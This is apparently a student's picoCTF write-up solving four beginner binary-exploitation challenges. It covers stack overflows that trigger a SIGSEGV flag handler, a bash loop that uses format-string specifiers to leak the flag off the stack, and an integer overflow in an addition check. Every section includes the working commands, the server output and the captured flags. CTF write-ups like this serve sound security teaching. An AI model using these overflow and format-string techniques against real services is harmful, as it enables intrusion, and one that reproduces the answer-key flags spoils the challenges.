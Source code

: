 # buffer overflow 0
Challenge provides a source code from which it's immediately obvious that upon a `SIGSEGV` signal the flag is given out
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
...
```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
Therefore, let's try to enter a REALLY big input in an attempt to stack smash.
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62854 <<< $(printf "Get smashed lol %.0s" {1..69})
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
(base) achu@air ~ % 
```
And we get our flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`.

# format string 0
Same as `buffer overflow 0`, the `SIGSEGV` signal yields a flag and we'll provide a massive input to smash the stack.
```bash
(base) achu@air ~ % nc mimas.picoctf.net 56388  <<< $(printf "x%.0s" {1..6969})
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
The flag is `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`

# flag leak
In the source code, the unsafe function `scanf` is used
```c
scanf("%127s", story);
```
We can potentially exploit it and make it print values off the stack
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62426
Tell me a story and then I'll tell you one >> %x  
Here's a story - 
ffebb4e0
(base) achu@air ~ % 
```
Automating this to run until we find a hit for string containing `CTF`
```bash
(base) achu@air ~ % i=0; while true; do output="$(echo "%${i}\$s" | nc saturn.picoctf.net 62426 2>/dev/null)"; if echo "$output" | grep -E CTF >/dev/null; then echo "Found at i=$i:"; echo "$output"; break; fi; i=$((i+1)); done

Found at i=24:
Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
(base) achu@air ~ % 
```
Reformat and our correct flag is `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

# two-sum (extra)
Given the source code, we observe our point of interest which is the `addIntOvf` function.
Because our flag is printed when that function returns `-1`
```c
if (addIntOvf(sum, num1, num2) == 0) {
    printf("No overflow\n");
    fflush(stdout);
    exit(0);
} else if (addIntOvf(sum, num1, num2) == -1) {
    printf("You have an integer overflow\n");
    fflush(stdout);
}
```
Let's take a look at the definition of `addIntOvf`
```c
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```
We need `a` and `b` to be of same sign and non-zero while result is the opposite sign of whatever `a` and `b` is for this function to return `-1` (this is not mathematically possible).
However we can cause an integer overflow with the addition `a + b`, causing a complement wrapping making `result` negative.
Proof of concept:
```c
#include <stdio.h>

int main(void) {
    int result = (1 << 31);
    printf("result = %d\n", result); // result = -2147483648
    return 0;
}
```
We'll provide `num1` as `2147483647` and `num2` as `1` to cause an overflow and consequentially produce a `result` that is negative.
```bash
(base) achu@air cryptonite_taskphase_2_achyuth % nc saturn.picoctf.net 52457 
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
2147483647 1
You entered 2147483647 and 1
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_f6ed8057}
```
Our flag is `picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_f6ed8057}`

